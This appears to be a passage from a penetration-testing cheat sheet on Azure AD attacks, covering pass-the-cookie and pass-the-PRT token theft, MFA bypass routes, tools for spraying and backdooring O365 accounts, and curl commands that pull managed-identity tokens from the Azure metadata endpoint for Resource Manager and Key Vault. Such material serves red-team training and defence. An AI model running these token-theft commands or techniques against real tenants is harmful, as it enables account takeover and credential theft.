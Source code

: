 **Type 1**: Pass the cookie. By stealing a newly attacker generated PRT cookie from the victim’s computer and use this PRT cookie to fetch access token from Azure AD  
 
**Type 2**: Pass the PRT. By stealing the PRT and session/derived key from LSASS on victim’s computer and generate a PRT cookie on attacker computer. Use this cookie to fetch an access token from Azure AD.  

- Connect from internal network IP range  
The **Trusted IPs** feature of Azure AD Multi-Factor Authentication bypasses multi-factor authentication prompts for users who sign in from a defined IP address range.

- Legacy Auth (EAS, EWS, Outlook for Mac)  
--> (MFASweep tool)  
--> https://github.com/dafthack/MFASweep  

- https://www.blackhillsinfosec.com/exploiting-mfa-inconsistencies-on-microsoft-services/ 
 
- https://www.slashadmin.co.uk/bypass-mfa-for-azure-runbooks/

### Team Filtration - Attacking O365 AAD Accounts
TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts.  

- https://github.com/Flangvik/TeamFiltration
- https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration

<br/>

## Initial access Attacks

### Instance metadata service
- A metadata endpoint was created and hoster on a non-routable IP address at **169.254.169.254**.

- Can contain access/secret keys
- Only reachable from localhost

--> Exploitation through Server compromise or SSRF vulnerabilities  
- http://169.254.169.254/metadata
- GET 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' HTTP/1.1 Metadata: true

```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2020-09-01"
```

![imds](https://miro.medium.com/max/382/1*pW9dE1sdHUr4-wvHVyo9dw.png)

##### Targeting Azure Resource Manager
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

##### Targeting Azure Key Vault
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"
```

